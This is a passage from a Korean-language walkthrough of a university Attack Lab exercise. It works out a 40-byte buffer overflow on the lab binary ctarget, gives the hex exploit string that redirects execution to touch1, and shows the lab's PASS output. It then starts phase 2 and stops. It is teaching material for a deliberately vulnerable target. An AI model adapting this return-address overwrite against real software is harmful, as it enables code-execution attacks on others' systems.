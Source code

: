 보면 스택에 0x28 만큼의 공간을 할당하고 있다.
이는 곧 40bytes의 공간을 만든다는 의미다.
각 char이 1byte를 차지하므로 BUFFER_SIZE는 40이다.

다음으로 touch1의 주소를 알아보자.

```
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
```

코드의 시작 주소가 0x4017c0인 것을 알 수 있다.
그러므로 exploit string은 앞에 40개의 문자를 넣고 뒤에 0x4017c0를 넣어줘야 한다.
phase1.txt에 아래 내용을 적어준다.

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

이 파일을 `./hex2raw < phase1.txt > phase1-ans.txt`로 변환해준다.
그리고 `./ctarget < phase1-ans.txt`로 값을 넣어주면 해결된다.

```
cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for Phase1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40
```

### phase 2

#### What is task?

ctarget은 아래의 touch2 함수를 포함하고 있다.

```
void touch2(unsigned val)
{
    vlevel = 2;             /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
